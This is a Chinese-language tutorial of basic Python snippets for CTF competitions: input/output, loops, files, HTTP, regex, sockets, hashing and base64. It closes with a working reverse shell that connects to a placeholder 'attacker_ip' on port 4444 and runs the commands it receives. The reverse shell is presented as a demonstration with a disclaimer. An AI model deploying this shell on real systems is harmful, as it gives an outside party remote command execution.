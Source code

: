 在CTF（Capture The Flag）比赛中，Python是一种常用的脚本语言，用于快速编写解决方案、分析数据、自动化任务以及编写漏洞利用脚本。以下是一些Python的基本语句和常见用法，这些代码片段可以帮助你在CTF比赛中处理各种任务。

### 基本输入输出

#### 输入
```python
user_input = input("Enter something: ")
print("You entered:", user_input)
```

#### 输出
```python
print("Hello, World!")
```

### 变量和数据类型

#### 变量
```python
x = 10
y = 20
name = "CTF"
```

#### 数据类型
```python
integer = 10
float_number = 10.5
string = "CTF"
boolean = True
list_example = [1, 2, 3, "CTF"]
dict_example = {"key": "value", "number": 10}
```

### 条件语句

```python
x = 10
if x > 5:
    print("x is greater than 5")
elif x == 5:
    print("x is equal to 5")
else:
    print("x is less than 5")
```

### 循环

#### For 循环
```python
for i in range(5):
    print(i)
```

#### While 循环
```python
i = 0
while i < 5:
    print(i)
    i += 1
```

### 函数

```python
def greet(name):
    return "Hello, " + name

print(greet("CTF"))
```

### 文件操作

#### 读取文件
```python
with open("example.txt", "r") as file:
    content = file.read()
    print(content)
```

#### 写入文件
```python
with open("example.txt", "w") as file:
    file.write("Hello, CTF!")
```

### 网络操作

#### 发送HTTP请求
使用`requests`库来发送HTTP请求。
```python
import requests

response = requests.get("http://example.com")
print(response.text)
```

### 正则表达式

```python
import re

pattern = r"\d+"  # 匹配一个或多个数字
text = "There are 123 numbers in this text"
matches = re.findall(pattern, text)
print(matches)  # 输出 ['123']
```

### 序列化和反序列化

#### JSON
```python
import json

data = {"key": "value", "number": 10}
json_data = json.dumps(data)
print(json_data)

parsed_data = json.loads(json_data)
print(parsed_data)
```

### 异常处理

```python
try:
    x = 1 / 0
except ZeroDivisionError:
    print("Division by zero is not allowed")
finally:
    print("This block always executes")
```

### 进程和系统命令

#### 执行系统命令
```python
import subprocess

result = subprocess.run(["ls", "-l"], capture_output=True, text=True)
print(result.stdout)
```

### Socket 编程

#### 简单的Socket客户端
```python
import socket

host = "example.com"
port = 80
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((host, port))
client.send(b"GET / HTTP/1.1\r\nHost: example.com\r\n\r\n")
response = client.recv(4096)
print(response.decode())
client.close()
```

#### 简单的Socket服务器
```python
import socket

server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(("0.0.0.0", 9999))
server.listen(5)

while True:
    client_socket, addr = server.accept()
    print("Accepted connection from:", addr)
    client_socket.send(b"Hello from server!\n")
    client_socket.close()
```

### 常用Python库

#### Requests库
```python
import requests

response = requests.get("http://example.com")
print(response.text)
```

#### BeautifulSoup库 (用于HTML解析)
```python
from bs4 import BeautifulSoup

html = "<html><body><h1>Hello, CTF!</h1></body></html>"
soup = BeautifulSoup(html, "html.parser")
print(soup.h1.text)
```

#### hashlib库 (用于哈希计算)
```python
import hashlib

hash_object = hashlib.sha256(b"Hello, CTF!")
print(hash_object.hexdigest())
```

### 基本编码和解码

#### Base64编码和解码
```python
import base64

# 编码
encoded = base64.b64encode(b"Hello, CTF!")
print(encoded)

# 解码
decoded = base64.b64decode(encoded)
print(decoded)
```

### 综合利用示例

#### 简单的反弹Shell (用于演示目的，请勿用于非法用途)
```python
import socket
import subprocess

host = "attacker_ip"
port = 4444
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(b"Connected\n")

while True:
    command = s.recv(1024).decode()
    if command.lower() == "exit":
        break
    output = subprocess.run(command, shell=True, capture_output=True, text=True)
    s.send(output.stdout.encode() + output.stderr.encode())

s.close()
```

这些基本的Python语句和示例代码可以帮助你在CTF比赛中处理各种任务，快速编写解决方案和漏洞利用脚本。记住，在编写和运行代码时，要遵循道德规范和法律法规。